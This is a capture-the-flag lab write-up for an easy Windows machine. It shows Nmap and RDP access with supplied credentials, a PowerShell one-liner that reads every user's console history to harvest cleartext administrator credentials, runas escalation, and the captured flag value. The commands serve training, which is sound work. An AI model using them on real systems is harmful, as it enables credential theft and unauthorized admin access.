





# Lab Report - Slayer


# Overview 
---
- **Difficulty**: Easy
- **Platform**: Windows
- **Link**: https://www.hacksmarter.org/courses/530c3910-9b4d-4983-949c-126a8587b4ed

## Resolution Summary 
---
Using our provided credentials, we could gain an RDP session on the target. Next, we recovered the administrator's cleartext credentials from PowerShell history. Finally, we used `runas` to launch an admin cmd prompt and retrieve the flag.

# Information Gathering 
---
- First, we enumerated open ports with Nmap to find which services were available to us. We found that RDP was available:
```bash
sudo nmap 10.1.30.196 -p- -vv
```
<p align="center">
  
</p>

- Using our credentials, we were noticed that we could RDP into the target:
```bash
nxc rdp 10.1.30.196 -u tyler.ramsey -p 'P@ssw0rd!'
```
<p align="center">
  
</p>

- Therefore, we gained an RDP session on the target:
```bash
xfreerdp3 /v:10.1.30.196 /u:'tyler.ramsey' /p:'P@ssw0rd!' /drive:transfer,/tmp/test
```

- After inspecting our PowerShell history, we found the cleartext credentials for the `administrator` user:
```bash
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
<p align="center">
  
</p>

- Hence, we could authenticate as administrator: 
```bash
runas /user:administrator cmd
whoami /all
```
<p align="center">
  
</p>

- Finally, we retrieved the root flag:
```bash
cat C:\Users\Administrator\Desktop\root.txt
```
<p align="center">
  
</p>

# Trophy 
---
**Root.txt → `3835538c50e819f392144ae9ef125496`**
